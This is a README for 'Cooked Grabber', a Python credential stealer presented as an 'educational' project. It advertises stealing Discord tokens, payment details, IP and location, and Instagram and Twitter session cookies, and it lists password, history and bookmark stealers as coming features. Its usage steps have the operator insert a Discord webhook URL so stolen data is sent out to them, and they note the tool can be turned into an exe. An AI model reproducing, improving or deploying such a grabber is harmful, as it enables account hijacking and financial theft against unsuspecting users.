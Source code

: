 ![Logo](https://imgur.com/lCyX6TX.png)

# Cooked Grabber

Discord , Twitter, Instagram cookies and token grabber.

## Features

- Easy to use
- Alls navigators compatibility
- Steal discord token
- Steal discord payment informations
- Steal IP adress and location
- Steal Instagram connection cookies
- Steal Twitter connection cookies
- Can be converted to exe
## Requirements

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*unless it exe converted, python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt` (unless it exe converted)

## Screenshots

![App Screenshot](https://imgur.com/btX4Sro.png)

![App Screenshot](https://imgur.com/Fax7uTB.png)

## How to use ?

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
```py
main(['YOUR DISCORD WEBHOOK URL']) #line 273
```
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Coming soon features 
- More optimisations , kill lags
- Saved password stealer
- Bookmarks stealer
- History stealer
- More error bypass
## Disclaimer
- Only for educationnal puposes.
- We decline any responsability in case of misuse of this code.

## Author

- [@mouadessalim](https://github.com/mouadessalim)
- [@crashixx](https://github.com/crashixx)
